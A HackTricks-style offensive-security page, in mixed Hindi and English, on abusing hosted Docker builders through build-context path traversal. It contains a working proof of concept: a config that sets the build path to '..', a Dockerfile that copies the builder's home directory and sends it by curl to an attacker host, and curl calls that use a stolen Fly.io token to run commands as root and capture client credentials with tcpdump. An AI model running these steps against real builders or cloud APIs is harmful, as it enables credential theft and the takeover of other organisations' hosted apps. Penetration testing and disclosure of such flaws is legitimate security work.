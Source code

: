 # Hosted Builders में Docker Build Context का दुरुपयोग (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## TL;DR

यदि कोई CI/CD प्लेटफ़ॉर्म या hosted builder contributors को Docker build context path और Dockerfile path निर्दिष्ट करने देता है, तो अक्सर आप context को parent directory (जैसे "..") पर सेट कर सकते हैं और host फ़ाइलों को build context का हिस्सा बना सकते हैं। फिर, attacker-controlled Dockerfile COPY कर सकता है और builder user के home में पाए जाने वाले secrets को exfiltrate कर सकता है (उदाहरण के लिए, ~/.docker/config.json)। चोरी किए गए registry tokens provider के control-plane APIs के खिलाफ भी काम कर सकते हैं, जिससे org-wide RCE सक्षम हो सकता है।

## Attack surface

Many hosted builder/registry services do roughly this when building user-submitted images:
- Read a repo-level config that includes:
- build context path (sent to the Docker daemon)
- Dockerfile path relative to that context
- Copy the indicated build context directory and the Dockerfile to the Docker daemon
- Build the image and run it as a hosted service

यदि प्लेटफ़ॉर्म build context को canonicalize और restrict नहीं करता है, तो उपयोगकर्ता इसे repository के बाहर किसी स्थान पर सेट कर सकता है (path traversal), जिससे build user द्वारा पढ़ी जा सकने वाली arbitrary host फ़ाइलें build context का हिस्सा बन जाएँगी और Dockerfile में COPY के लिए उपलब्ध हो जाएँगी।

आम तौर पर देखे जाने वाले व्यावहारिक प्रतिबंध:
- The Dockerfile must reside within the chosen context path and its path must be known ahead of time.
- The build user must have read access to files included in the context; special device files can break the copy.

## PoC: Path traversal via Docker build context

Example malicious server config declaring a Dockerfile within the parent directory context:
```yaml
runtime: "container"
build:
dockerfile: "test/Dockerfile"   # Must reside inside the final context
dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
type: "http"
configSchema:
type: "object"
properties:
apiKey:
type: "string"
required: ["apiKey"]
exampleConfig:
apiKey: "sk-example123"
```
नोट्स:
- ".." का उपयोग अक्सर builder उपयोगकर्ता के होम (उदा., /home/builder) तक पहुँचता है, जिसमें आमतौर पर संवेदनशील फाइलें होती हैं।
- अपनी Dockerfile को repo के डायरेक्टरी नाम के अंतर्गत रखें (उदा., repo "test" → test/Dockerfile) ताकि यह विस्तारित parent context के भीतर रहे।

## PoC: host context को ingest और exfiltrate करने के लिए Dockerfile
```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```
आम तौर पर $HOME से प्राप्त लक्ष्य:
- ~/.docker/config.json (registry auths/tokens)
- अन्य cloud/CLI caches और configs (उदा., ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

टिप: भले ही repository में .dockerignore मौजूद हो, कमजोर platform-side context selection तय करता है कि क्या चीज़ें daemon को भेजी जाएँगी। अगर platform चुनी हुई path को आपके repo’s .dockerignore का मूल्यांकन करने से पहले daemon पर कॉपी कर देता है, तो host फ़ाइलें फिर भी उजागर हो सकती हैं।

## Cloud pivot with overprivileged tokens (example: Fly.io Machines API)

Some platforms issue a single bearer token usable for both the container registry and the control-plane API. If you exfiltrate a registry token, try it against the provider API.

Example API calls against Fly.io Machines API using the stolen token from ~/.docker/config.json:

एक org में apps को सूचीबद्ध करें:
```bash
curl -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps?org_slug=smithery"
```
किसी भी ऐप की किसी भी मशीन के अंदर root के रूप में कोई कमांड चलाएँ:
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```
परिणाम: org-wide remote code execution उन सभी hosted apps में जहाँ token के पास पर्याप्त अधिकार हों।

## Compromised hosted services से Secret चोरी

hosted servers पर exec/RCE होने पर, आप client-supplied secrets (API keys, tokens) को एकत्र कर सकते हैं या prompt-injection attacks अंजाम दे सकते हैं। उदाहरण: tcpdump इंस्टॉल करके port 8080 पर HTTP ट्रैफ़िक कैप्चर करें ताकि inbound credentials निकाले जा सकें।
```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```
Captured requests अक्सर headers, bodies, या query params में client credentials होते हैं।

## संदर्भ

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}
